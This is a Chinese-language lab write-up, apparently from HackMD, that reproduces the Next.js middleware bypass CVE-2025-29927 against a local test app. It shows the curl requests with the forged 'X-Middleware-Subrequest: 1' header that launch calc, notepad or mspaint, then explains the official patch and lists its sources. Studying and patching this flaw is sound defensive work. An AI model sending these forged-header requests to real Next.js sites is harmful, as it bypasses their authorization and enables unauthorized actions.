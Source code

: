 ```bash!
npm run dev
```

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2cbeb3f42695d3b1bbb46ccc7389b220.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1746362483&Signature=YrxW1BQG%2BKdItrqMrlGQ4ltltz4%3D)

#### 執行payload

1. 先下載curl -- `choco install curl`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_3471f48370900cad3c429678ef77a95d.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1746362491&Signature=hPdjiNXYZkulpMc0feRraSZDHwQ%3D)

2. 執行 `curl` 加上 header

```bash!
curl "http://localhost:3000/protected/run?cmd=calc" -H
 "X-Middleware-Subrequest: 1"
```

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_cbbfb2d912cfca5ca91b8550cb220574.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1746362499&Signature=VPj2XrxhuaZC93MnH686G1WuCw8%3D)

整個攻擊就完成啦!!!

> ### 也可以更換payload
>
> curl "http://localhost:3000/protected/run?cmd=notepad" -H "X-Middleware-Subrequest: 1"
>curl "http://localhost:3000/protected/run?cmd=mspaint" -H "X-Middleware-Subrequest: 1"

## patch ( Workaround )

### 問題本質 Recap

JS 錯誤地信任 header，導致攻擊者只要加上這個 header，就能繞過 middleware 的驗證

### 官方修復

根據 Next.js GitHub 官方提交紀錄：
[Update middleware request header (#77201)](https://github.com/vercel/next.js/pull/77201/commits)

官方在 commit 中將對 x-middleware-subrequest 的信任邏輯，改為使用 `isInternalRequest()` 進行判斷，從而防止外部請求偽造 header 繞過中介層驗證（CVE-2025-29927）。

#### 統整更動

| 分析項目    | 原本的做法    |導致的問題    |修補後的做法    |
| --------- | ----------- | ----------- | ------------|
|是否為內部請求|只要請求帶有標頭 x-middleware-subrequest 就視為「內部請求」|攻擊者可以用 curl 加上這個標頭就騙過 middleware，繞過授權|驗證該請求是否帶有 正確 session 的唯一 ID，才信任它是內部請求|
|判斷邏輯位置|沒有驗證來源，只靠單一 header 判斷|外部使用者可偽造 header，跳過中間件邏輯、執行敏感操作|在核心程式碼中加入 session 追蹤與 header 過濾，清除不合法的 header
|繞過途徑|`curl "http://host" **-H "X-Middleware-Subrequest: 1"**`|沒有比對內部 request session 的 ID，任何人都可以成功繞過驗證！|必須同時帶有 Next.js 內部塞入的 x-middleware-subrequest-id 並且與 global session 一致，否則直接刪除 header|

## 資料來源

- [github js 官網](https://github.com/vercel/next.js)
- [NVD 漏洞訊息](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)
- [Censys 漏洞訊息](https://censys.com/advisory/cve-2025-29927)
- [Vercel 漏洞追蹤](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass)
- [JFrog 漏洞原理](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)
